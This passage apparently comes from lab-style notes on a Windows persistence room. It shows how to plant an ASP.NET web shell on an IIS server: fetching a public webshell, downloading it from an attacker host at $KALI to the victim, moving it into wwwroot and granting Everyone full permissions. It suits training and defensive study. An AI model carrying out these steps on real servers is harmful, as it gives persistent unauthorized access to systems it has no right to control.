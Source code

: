 ##

## Persisting Through Existing Services

If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you. This task will look at how to plant backdoors in a typical web server setup. Still, any other application where you have some degree of control on what gets executed should be backdoorable similarly. The possibilities are endless!

### Using Web Shells

The usual way of achieving persistence in a web server is by uploading a web shell to the web directory. This is trivial and will grant us access with the privileges of the configured user in IIS, which by default is `iis apppool\defaultapppool`. Even if this is an unprivileged user, it has the special `SeImpersonatePrivilege`, providing an easy way to escalate to the Administrator using various known exploits. For more information on how to abuse this privilege, see the [Windows Privesc Room](https://tryhackme.com/room/windowsprivesc20).

Let's start by downloading an ASP.NET web shell. A ready to use web shell is provided [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx), but feel free to use any you prefer. Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory.

**Kali**

```
curl https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx -o shell.aspx 
python3 -m http.server
```

**Victim(powershell)**

<pre><code>wget http://$KALI:8000/shell.aspx -O shell.aspx
move shell.aspx C:\inetpub\wwwroot\
<strong>cd C:\inetpub\wwwroot\
</strong>icacls shell.aspx /grant Everyone:F
</code></pre>



Note: Depending on the way you create/transfer `shell.aspx`, the permissions in the file may not allow the web server to access it. If you are getting a Permission Denied error while accessing the shell's URL, just grant everyone full permissions on the file to get it working. You can do so with `icacls shell.aspx /grant Everyone:F`.

We can then run commands from the web server by pointing to the following URL:

`http://$VICTIM/shell.aspx`

<figure><img src="../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>
